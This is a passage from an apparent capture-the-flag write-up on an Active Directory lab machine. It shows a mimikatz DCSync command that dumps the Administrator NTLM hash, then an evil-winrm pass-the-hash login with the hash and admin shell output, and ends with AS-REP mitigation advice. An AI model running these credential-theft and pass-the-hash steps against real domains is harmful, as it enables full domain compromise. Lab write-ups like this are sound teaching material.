 On the `Windows Abuse` tab we find the command to run.

![](7.png)

This attack requires `mimikatz` to run the command:

```shell
lsadump::dcsync /domain:testlab.local /user:Administrator
```

Let's upload a copy of `mimikatz` to the target and run the command:

![](8.png)

We've successfully retrieved the `Administrator`'s NTLM hash.

Now using `evil-winrm`, let's connect to the target using `pass-the-hash` attack.

```shell
$ evil-winrm -i EGOTISTICAL-BANK.LOCAL -u administrator -H 823452073d75b9d1cf70ebdf86c7f98e

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> ls ../desktop


    Directory: C:\Users\Administrator\desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        8/24/2023   8:27 AM             34 root.txt

```

Nice, we got Admin.

## **Prevention and Mitigation**

### AS-REP

Pre-authentication should be enabled for all account in the Domain Controller.

Enforce a complex password policy (long passwords with numbers and special characters) that's going to be difficult to crack. The passwords should also be changed frequently.

Implement MFA for Kerberos authentication.
